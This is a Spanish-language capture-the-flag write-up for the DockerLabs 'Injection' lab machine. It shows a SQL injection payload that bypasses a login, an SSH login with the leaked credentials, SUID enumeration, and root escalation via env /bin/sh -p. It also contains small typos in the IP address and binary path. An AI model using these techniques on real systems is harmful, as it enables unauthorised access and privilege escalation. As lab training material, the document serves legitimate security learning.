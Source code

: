 # Información de la Máqina
    ## Nombre: Injection
    ## Tipo: DockerLabs
    ## IP: 127.17.0.2
    ## Objetivo: Escalada de Privilegios a root

# 1.- Enumeración Inicial
Al acceder al servicio web en el puerto 80, se encuentra un formulario de login.
### Dominio Web:
![Dominio_Web](capturas/Injection_Dominio_Web.png)
### Pagina Web:
![Pagina_Web](capturas/Injection_Dominio_Web_Pagina.png)

# 2.- Explotación
Se prueba una Injección SQL clásica en el campo username:
```vbnet
' or 1=1-- -
```
![Injeccion_SQL](capturas/Injection_Dominio_Web_Injeccion_SQL.png)

### Con cualquier contraseña, el login se bypassa con éxito.
El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](capturas/Injection_Dominio_Web_Muestra_Contrasena.png)

### Evidencia: Contraseña Guardada en:
```bash
Puntos_de_Encuentro/Password_Dylan.txt
```

# 3.- Movimiento lateral
Con las credenciales obtenidas, se establece conexión SSH:
```nginx
ssh dylan@172.17.0.2
```
![SSH](capturas/Injection_SSH_Completado.png)
Acceso exitoso como el usuario dylan

# 4.- Escalada de Privilegios
Se enumeran los binarios con bit SUID:
```javascript
find / -perm -4000 2>/dev/null
```
![Numeracion_Binarios](capturas/Injection_Escalado_Privilegios_2.png)
Se detecta /usr/bin/env con privilegios elevados.
### Ejecución del binario para escalar:
```bash
/src/bin/env /bin/sh -p
```
![Acceso_Root](capturas/Injection_Escalado_Privilegios_3_Final.png)
### Evidencia guardada en:
```bash
Puntos_de_Encuentro/Esclado_Privilegios.txt
```

# 5.- Resultado Final
Acceso root conseguido:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusiones
> La máquina es vulnerable a un SQL Injection que permite burlar la autenticación. 
> Las credenciales expuestas facilitan acceso vía SSH. 
> La presencia de un binario SUID (env) mal configurado permite la escalada directa a root. 
